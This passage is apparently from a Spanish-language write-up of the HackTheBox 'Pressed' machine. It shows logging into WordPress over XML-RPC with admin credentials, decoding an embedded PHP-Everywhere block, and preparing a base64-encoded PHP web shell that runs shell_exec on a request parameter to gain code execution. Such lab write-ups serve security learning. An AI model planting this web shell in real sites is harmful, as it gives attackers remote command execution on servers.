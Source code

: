 Para trabajar más comodamente, instalo un módulo de python. Intento poder editar los posts existentes en la web

```null
pip3 install python-wordpress-xmlrpc
```

```null
Python 3.11.1 (main, Dec 31 2022, 10:23:59) [GCC 12.2.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> from wordpress_xmlrpc import Client
>>> from wordpress_xmlrpc.methods import posts
>>> client = Client("http://pressed.htb/xmlrpc.php", 'admin', 'uhc-jan-finals-2022')
>>> post = client.call(posts.GetPosts())
>>> post
[<WordPressPost: b'UHC January Finals Under Way'>]
```

Unicamente hay un post. Puedo intentar ver como está compuesto

```null
>>> post[0].link
'/index.php/2022/01/28/hello-world/'
>>> post[0].content
'<!-- wp:paragraph -->\n<p>The UHC January Finals are underway!  After this event, there are only three left until the season one finals in which all the previous winners will compete in the Tournament of Champions. This event a total of eight players qualified, seven of which are from Brazil and there is one lone Canadian.  Metrics for this event can be found below.</p>\n<!-- /wp:paragraph -->\n\n<!-- wp:php-everywhere-block/php {"code":"JTNDJTNGcGhwJTIwJTIwZWNobyhmaWxlX2dldF9jb250ZW50cygnJTJGdmFyJTJGd3d3JTJGaHRtbCUyRm91dHB1dC5sb2cnKSklM0IlMjAlM0YlM0U=","version":"3.0.0"} /-->\n\n<!-- wp:paragraph -->\n<p></p>\n<!-- /wp:paragraph -->\n\n<!-- wp:paragraph -->\n<p></p>\n<!-- /wp:paragraph -->'
```

Le hago un decode a la cadena en base64 y la url-decodeo

```null
echo "JTNDJTNGcGhwJTIwJTIwZWNobyhmaWxlX2dldF9jb250ZW50cygnJTJGdmFyJTJGd3d3JTJGaHRtbCUyRm91dHB1dC5sb2cnKSklM0IlMjAlM0YlM0U=" | base64 -d; echo
%3C%3Fphp%20%20echo(file_get_contents('%2Fvar%2Fwww%2Fhtml%2Foutput.log'))%3B%20%3F%3E
❯ php --interactive
Interactive shell

php > echo urldecode("%3C%3Fphp%20%20echo(file_get_contents('%2Fvar%2Fwww%2Fhtml%2Foutput.log'))%3B%20%3F%3E");
<?php  echo(file_get_contents('/var/www/html/output.log')); ?>
```

Imprime el contenido de un log. Puedo tratar de cambiarlo para obtener RCE

```null
<?php
  echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
?>
```

```null
base64 -w 0 test; echo
PD9waHAKICBlY2hvICI8cHJlPiIgLiBzaGVsbF9leGVjKCRfUkVRVUVTVFsnY21kJ10pIC4gIjwvcHJlPiI7Cj8+Cg==
```
